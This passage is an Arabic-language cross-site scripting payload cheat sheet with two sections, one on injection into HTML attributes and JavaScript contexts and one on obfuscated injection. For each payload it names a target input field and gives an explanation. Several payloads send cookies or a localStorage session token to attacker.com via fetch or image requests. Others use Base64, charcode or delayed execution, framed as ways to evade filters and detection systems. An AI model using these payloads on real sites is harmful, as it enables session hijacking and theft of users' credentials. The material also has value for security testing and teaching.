 #### د. حقن داخل سمات أو JavaScript
{ #XSS_exploit /  #Inline_HTML_Injection}
إدراج شيفرة في سياقات سمات HTML أو JavaScript.
- **الحقن**: `" onfocus="alert('XSS')`
  - **الإدخال**: أدخل في حقل الاسم: `" onfocus="alert('XSS')`
  - **كيف يعمل**: ينفذ تنبيهًا إذا أُدرج في سمة مثل `<input value="...">`.
  - **متى يُستخدم؟**: لاستهداف السمات.
- **الحقن**: `" onload="fetch('http://attacker.com/log?c='+document.cookie)`
  - **الإدخال**: أدخل في حقل معاينة: `" onload="fetch('http://attacker.com/log?c='+document.cookie)`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إذا أُدرج في سمة حدث.
  - **متى يُستخدم؟**: لاستهداف أحداث السمات.
- **الحقن**: `";alert('XSS');//`
  - **الإدخال**: أدخل في حقل تحرير النص: `";alert('XSS');//`
  - **كيف يعمل**: ينفذ تنبيهًا إذا أُدرج في سياق JavaScript مثل `<script>var x="...";`.
  - **متى يُستخدم؟**: لاستهداف JavaScript.
- **الحقن**: `";fetch('http://attacker.com/log?c='+document.cookie);//`
  - **الإدخال**: أدخل في حقل الإعدادات: `";fetch('http://attacker.com/log?c='+document.cookie);//`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط في سياق JavaScript.
  - **متى يُستخدم؟**: لسرقة البيانات في JavaScript.
- **الحقن**: `" onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')`
  - **الإدخال**: أدخل في حقل وصف الملف الشخصي: `" onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')`
  - **كيف يعمل**: يرسل رمز الجلسة عند تمرير المؤشر.
  - **متى يُستخدم؟**: لاستهداف سمات التفاعل.

#### هـ. حقن مع التعتيم
{ #XSS_ecoded_payload  / #XSS_exploit}
استخدام تقنيات التعتيم لتجنب الكشف.
- **الحقن**: `<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>`
  - **الإدخال**: أدخل في حقل الاسم: `<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>`
  - **كيف يعمل**: يفك تشفير Base64 لتنفيذ تنبيه.
  - **متى يُستخدم؟**: لتجاوز فلاتر العميل.
- **الحقن**: `<img src=x onerror="eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))">`
  - **الإدخال**: أدخل في حقل معاينة: `<img src=x onerror="eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))">`
  - **كيف يعمل**: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
  - **متى يُستخدم؟**: لتجنب أنظمة الكشف.
- **الحقن**: `<script>alert(String.fromCharCode(88,83,83))</script>`
  - **الإدخال**: أدخل في حقل وصف الملف الشخصي: `<script>alert(String.fromCharCode(88,83,83))</script>`
  - **كيف يعمل**: ينشئ تنبيهًا باستخدام رموز ASCII.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر النصوص المباشرة.
- **الحقن**: `<img src=x onload="setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)">`
  - **الإدخال**: أدخل في حقل تحرير النص: `<img src=x onload="setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)">`
  - **كيف يعمل**: يؤخر إرسال البيانات لتجنب الكشف.
  - **متى يُستخدم؟**: لتجنب أنظمة المراقبة الفورية.
- **الحقن**: `<script>document['location']='http://attacker.com'</script>`
  - **الإدخال**: أدخل في حقل الإعدادات: `<script>document['location']='http://attacker.com'</script>`
  - **كيف يعمل**: يستخدم صيغة غير قياسية لإعادة التوجيه.
  - **متى يُستخدم؟**: لتجنب فلاتر البحث عن الكلمات.

